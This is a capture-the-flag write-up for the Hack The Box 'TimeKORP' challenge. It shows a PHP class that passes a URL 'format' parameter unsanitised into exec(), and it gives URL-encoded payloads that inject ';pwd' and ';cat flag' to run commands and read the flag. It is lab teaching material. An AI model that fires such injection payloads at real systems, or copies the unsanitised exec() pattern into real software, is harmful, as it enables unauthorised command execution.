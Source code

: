 ## TimeKORP

### Preparation
* Spawn the docker image
* Download and extract the files. Password is `hackthebox`

### Analysis
* There's a flag file with text `HTB{f4k3_fl4g_f0r_t35t1ng}` but that's not the real flag.
* Upon clicking "What's the Date", we discover the "format" parameter in the URL.
<img width="709" alt="image" src="https://github.com/user-attachments/assets/1af2520b-16f2-4e1d-ac8c-df420342b9fe">

* Following up the usage of `format` parameter, we land at
  
```
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```
* It simply constructs a `command` and invokes `exec` function. It doesn't try to sanitise the input. This means we can try executing any command line script.
* Let's try a `pwd` - URL/?format=%27;%20pwd%27
<img width="709" alt="image" src="https://github.com/user-attachments/assets/11bc3c9a-ce9a-4080-b4d3-b322b141d5f4">

* From the `Dockerfile` we see that the flag file is at the root.
```
# Copy flag
COPY flag /flag
```

### Solution
* Executing URL/?format=%27;%20cat%20flag%27 prints the flag.
<img width="671" alt="image" src="https://github.com/user-attachments/assets/248637a1-6b05-48a2-b0c6-d65fac7cf09a">


